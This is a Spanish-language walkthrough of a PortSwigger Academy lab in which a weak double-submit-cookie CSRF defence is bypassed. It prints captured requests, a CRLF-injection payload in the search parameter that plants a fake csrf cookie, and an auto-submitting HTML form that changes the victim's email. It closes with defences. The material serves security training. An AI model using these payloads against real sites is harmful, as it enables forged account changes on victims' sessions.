


# PortSwigger Web Security Academy — CSRF Lab 6

# CSRF where token is duplicated in cookie

**URL del lab:** `https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie`  
**Categoría:** CSRF  
**Objetivo:** usar el exploit server para alojar una página HTML que cambie el email de la víctima mediante CSRF.  
**Credenciales:** `wiener:peter`

## Capturas incluidas

- `images/01_lab_home.png`
- `images/02_lab_solved.png`





---

# 1. Qué enseña este laboratorio

Este laboratorio enseña un fallo de diseño en una defensa CSRF llamada **Double Submit Cookie**.

La aplicación intenta proteger el cambio de email poniendo el mismo token CSRF en dos sitios:

1. En una cookie: `Cookie: csrf=TOKEN`
2. En el body POST: `csrf=TOKEN`

Después el servidor compara ambos valores:

```text
csrf_cookie == csrf_body
```

Si coinciden, acepta la petición.

El problema es que el servidor no comprueba que el token sea auténtico, ni que esté ligado a la sesión, ni que esté firmado. Solo comprueba que los dos valores sean iguales.

Por eso, si conseguimos que el navegador de la víctima guarde una cookie `csrf=fake` y además enviamos en el formulario `csrf=fake`, la validación queda superada.

---

# 2. Qué es CSRF

CSRF significa **Cross-Site Request Forgery**.

La idea es que una web maliciosa fuerza al navegador de una víctima autenticada a enviar una petición a otra web donde la víctima ya tiene sesión.

El atacante no necesita robar la cookie de sesión. El navegador la envía automáticamente al dominio correspondiente.

Ejemplo conceptual:

```http
POST /my-account/change-email
Cookie: session=COOKIE_VICTIMA

email=attacker@gmail.com
```

Si el servidor solo se fija en que la cookie de sesión es válida, pensará que la víctima quiso hacer esa acción.

---

# 3. Qué es Double Submit Cookie

Double Submit Cookie funciona así:

```http
Cookie: session=abc123; csrf=RANDOM_TOKEN
```

y en el body:

```text
email=user@gmail.com&csrf=RANDOM_TOKEN
```

La aplicación compara:

```text
cookie csrf = RANDOM_TOKEN
body csrf   = RANDOM_TOKEN
```

Si ambos coinciden, acepta.

Esto puede parecer seguro porque el atacante normalmente no puede leer cookies ni conocer el token real. Pero esta defensa se rompe si el atacante puede fijar la cookie CSRF de la víctima.

---

# 4. Cookie vs parámetro POST

Aquí hay un detalle clave: no estamos enviando dos cookies.

Estamos enviando:

```text
1 cookie llamada csrf
1 parámetro POST llamado csrf
```

La cookie va en la cabecera:

```http
Cookie: session=...; csrf=fake
```

El parámetro POST va en el body:

```text
email=toloko@gmail.com&csrf=fake
```

Tienen el mismo nombre y el mismo valor, pero viajan en sitios distintos de la petición.

El servidor vulnerable compara ambos.

---

# 5. Vulnerabilidad secundaria necesaria: CRLF Injection

Una página externa no puede poner cookies arbitrarias directamente en el dominio vulnerable.

Por eso usamos otra vulnerabilidad del laboratorio: el parámetro `search` permite inyectar cabeceras HTTP mediante CRLF Injection.

CRLF significa:

```text
Carriage Return + Line Feed
```

En URL encoding:

```text
%0d%0a
```

Si una aplicación mete el valor de `search` dentro de una cabecera sin sanitizar, podemos romper esa cabecera e inyectar otra.

Payload:

```text
?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```

Esto puede provocar que la respuesta contenga:

```http
Set-Cookie: csrf=fake; SameSite=None
```

Y el navegador de la víctima guarda esa cookie.

---

# 6. Inicio del laboratorio

Abrimos el laboratorio.


La página tiene aspecto de blog y un buscador. El título del lab es:

```text
CSRF where token is duplicated in cookie
```

Esto ya nos indica que el token CSRF aparece duplicado en cookie y en parámetro.

---

# 7. Login y captura de la petición legítima

Iniciamos sesión con:

```text
wiener:peter
```

Vamos a `My account`, cambiamos el email y capturamos la petición POST con Burp Suite:

```http
POST /my-account/change-email HTTP/1.1
Host: 0aac005c04512f1e8073031f006d0085.web-security-academy.net
Cookie: session=8QpCdexLd6fvdYYJyZQ6mAWwm02tIKfB; csrf=ah4cm5Rk6oXAnHoxQx996fcfqJMjNziH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aac005c04512f1e8073031f006d0085.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: https://0aac005c04512f1e8073031f006d0085.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

email=toloko%40gmail.com&csrf=ah4cm5Rk6oXAnHoxQx996fcfqJMjNziH
```

---

# 8. Análisis de la petición

En la cabecera `Cookie` vemos:

```http
Cookie: session=8QpCdexLd6fvdYYJyZQ6mAWwm02tIKfB; csrf=ah4cm5Rk6oXAnHoxQx996fcfqJMjNziH
```

Hay dos cookies:

```text
session=8QpCdexLd6fvdYYJyZQ6mAWwm02tIKfB
csrf=ah4cm5Rk6oXAnHoxQx996fcfqJMjNziH
```

En el body vemos:

```text
email=toloko%40gmail.com&csrf=ah4cm5Rk6oXAnHoxQx996fcfqJMjNziH
```

Decodificado:

```text
email=toloko@gmail.com
csrf=ah4cm5Rk6oXAnHoxQx996fcfqJMjNziH
```

La cookie CSRF y el parámetro CSRF coinciden exactamente:

```text
ah4cm5Rk6oXAnHoxQx996fcfqJMjNziH
=
ah4cm5Rk6oXAnHoxQx996fcfqJMjNziH
```

Esto confirma que la aplicación está usando Double Submit Cookie.

---

# 9. Hipótesis de validación

La aplicación probablemente hace algo parecido a:

```python
csrf_cookie = request.cookies["csrf"]
csrf_body = request.form["csrf"]

if csrf_cookie == csrf_body:
    change_email()
else:
    reject()
```

El fallo es que no hace esto:

```python
if csrf_body == expected_token_for_this_session:
    change_email()
```

Solo compara igualdad entre dos valores que el atacante puede llegar a controlar.

---

# 10. Prueba manual: cambiar ambos valores a fake

Modificamos en Repeater tanto la cookie como el body.

```http
POST /my-account/change-email HTTP/2
Host: 0aac005c04512f1e8073031f006d0085.web-security-academy.net
Cookie: session=8QpCdexLd6fvdYYJyZQ6mAWwm02tIKfB; csrf=fake
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aac005c04512f1e8073031f006d0085.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: https://0aac005c04512f1e8073031f006d0085.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

email=toloko%40gmail.com&csrf=fake
```

La respuesta:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Eso indica que la petición fue aceptada.

Conclusión:

```text
No hace falta que el token sea real.
Solo hace falta que cookie csrf y body csrf coincidan.
```

---

# 11. Problema del atacante

En Repeater podemos cambiar manualmente la cookie.

Pero en una víctima real no podemos abrir Burp y editar su cabecera `Cookie`.

Necesitamos una forma de hacer que su navegador guarde:

```text
csrf=fake
```

La conseguimos explotando CRLF Injection en el buscador.

---

# 12. Inyección de Set-Cookie

Payload usado dentro de una imagen:

```html

```

Desglose:

```text
https://LAB/?search=
```

endpoint vulnerable del buscador.

```text
test
```

valor normal.

```text
%0d%0a
```

salto de línea HTTP.

```text
Set-Cookie:%20csrf=fake
```

cabecera inyectada.

```text
%3b%20SameSite=None
```

añade `; SameSite=None`.

El servidor vulnerable acaba haciendo que el navegador almacene:

```text
csrf=fake
```

---

# 13. Por qué usar img

La etiqueta `` hace una petición GET automática al `src`.

La víctima no tiene que pulsar nada.

Además, como la URL devuelve HTML y no una imagen válida, la imagen falla.

Cuando falla, se ejecuta `onerror`.

---

# 14. Por qué usar onerror

El atributo:

```html
onerror="document.forms[0].submit();"
```

hace que el formulario se envíe justo después de que falle la carga de la imagen.

Este orden es importante:

```text
1. Se carga el img.
2. Se inyecta Set-Cookie: csrf=fake.
3. El navegador guarda la cookie.
4. El img falla.
5. Se ejecuta onerror.
6. Se envía el formulario con csrf=fake.
```

Así aseguramos que la cookie ya está fijada antes del POST.

---

# 15. PoC generado por Burp

Si generamos el PoC desde Burp, obtenemos algo como:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aac005c04512f1e8073031f006d0085.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="toloko&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Este PoC aún está incompleto para el ataque real porque solo envía `csrf=fake` en el body. Falta fijar la cookie `csrf=fake`.

---

# 16. Exploit final usado

Añadimos el `` para fijar la cookie y usamos el formulario para enviar el body.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>

    

    <form action="https://0aac005c04512f1e8073031f006d0085.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="toloko&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>

  </body>
</html>
```

---

# 17. Qué petición final envía la víctima

Tras cargar el exploit, el navegador de la víctima acaba enviando algo como:

```http
POST /my-account/change-email HTTP/1.1
Host: 0aac005c04512f1e8073031f006d0085.web-security-academy.net
Cookie: session=COOKIE_REAL_VICTIMA; csrf=fake
Content-Type: application/x-www-form-urlencoded

email=toloko%40gmail.com&csrf=fake
```

Lo importante:

```text
session=COOKIE_REAL_VICTIMA
```

La acción se hace sobre la cuenta de la víctima.

Y:

```text
csrf=fake
```

aparece en la cookie y en el body.

---

# 18. Por qué funciona

El servidor hace:

```text
csrf_cookie == csrf_body
```

En la víctima:

```text
csrf_cookie = fake
csrf_body   = fake
```

Entonces:

```text
fake == fake
```

y acepta.

---

# 19. Qué NO ocurre

No robamos la cookie de sesión.

No leemos la cookie CSRF original.

No leemos ninguna respuesta cross-origin.

No necesitamos XSS.

No necesitamos conocer un token real.

Solo fijamos una cookie y enviamos un formulario.

---

# 20. Rol exacto de cada vulnerabilidad

## Double Submit Cookie débil

Permite que un token inventado funcione si coincide en cookie y body.

## CRLF Injection

Permite inyectar `Set-Cookie: csrf=fake`.

Juntas permiten el CSRF.

Sin CRLF, el atacante no podría fijar fácilmente la cookie cross-site.

Sin Double Submit Cookie débil, fijar una cookie inventada no bastaría.

---

# 21. Exploit server

Pegamos el exploit HTML en el exploit server.

Pulsamos:

```text
Store
```

Después:

```text
Deliver exploit to victim
```

La víctima simulada visita la página y el lab se resuelve.


---

# 22. Flujo completo del ataque

```text
Víctima visita exploit server
  ↓
El navegador carga 
  ↓
GET /?search=test%0d%0aSet-Cookie:%20csrf=fake
  ↓
El servidor vulnerable responde con Set-Cookie: csrf=fake
  ↓
El navegador guarda Cookie: csrf=fake
  ↓
La imagen falla
  ↓
Se ejecuta onerror
  ↓
Se envía el formulario POST
  ↓
Cookie: session=VICTIMA; csrf=fake
Body: email=toloko@gmail.com&csrf=fake
  ↓
Servidor compara fake == fake
  ↓
Cambio de email aceptado
  ↓
Lab solved
```

---

# 23. Diferencia con el lab anterior

En el lab anterior, el token no estaba ligado a la sesión, pero necesitábamos un token válido.

Aquí no necesitamos un token válido.

Podemos inventar:

```text
fake
```

porque el servidor solo compara cookie y body.

Diferencia:

```text
Lab anterior:
usar token válido de otra sesión.

Este lab:
inventar token y fijarlo en cookie + body.
```

---

# 24. Cómo defenderse

Medidas correctas:

1. No usar Double Submit Cookie sin firma.
2. Firmar el token con HMAC.
3. Asociar el token a la sesión.
4. Validar tokens server-side por sesión.
5. Validar `Origin` y `Referer` como defensa adicional.
6. Usar `SameSite=Lax` o `SameSite=Strict` en cookies sensibles.
7. Corregir CRLF Injection.
8. No reflejar input de usuario en cabeceras HTTP sin sanitizar.
9. Rechazar caracteres `%0d` y `%0a` en valores que lleguen a headers.

---

# 25. Implementación correcta conceptual

En vez de:

```python
if request.cookies["csrf"] == request.form["csrf"]:
    accept()
```

debería hacerse algo así:

```python
session_id = request.cookies["session"]
expected = csrf_store[session_id]
submitted = request.form["csrf"]

if submitted == expected:
    accept()
else:
    reject()
```

O con firma:

```python
csrf = HMAC(secret, session_id + user_id + action)
```

Así un atacante no podría inventar `fake`.

---

# 26. Resumen final

El laboratorio se resuelve porque la aplicación:

```text
duplica el token CSRF en cookie y body
```

y luego solo comprueba:

```text
cookie csrf == body csrf
```

La explotación añade una segunda vulnerabilidad:

```text
CRLF Injection en search
```

para inyectar:

```http
Set-Cookie: csrf=fake
```

Después el formulario envía:

```text
csrf=fake
```

El servidor compara:

```text
fake == fake
```

y ejecuta el cambio de email sobre la sesión real de la víctima.

---

# 27. Frase clave

```text
Double Submit Cookie falla si el atacante puede controlar la cookie que se compara contra el token del formulario.
```

---

# 28. Idea definitiva

La protección CSRF no debe depender solo de que dos valores enviados por el cliente coincidan.

Si el atacante puede controlar ambos valores, la defensa no existe.

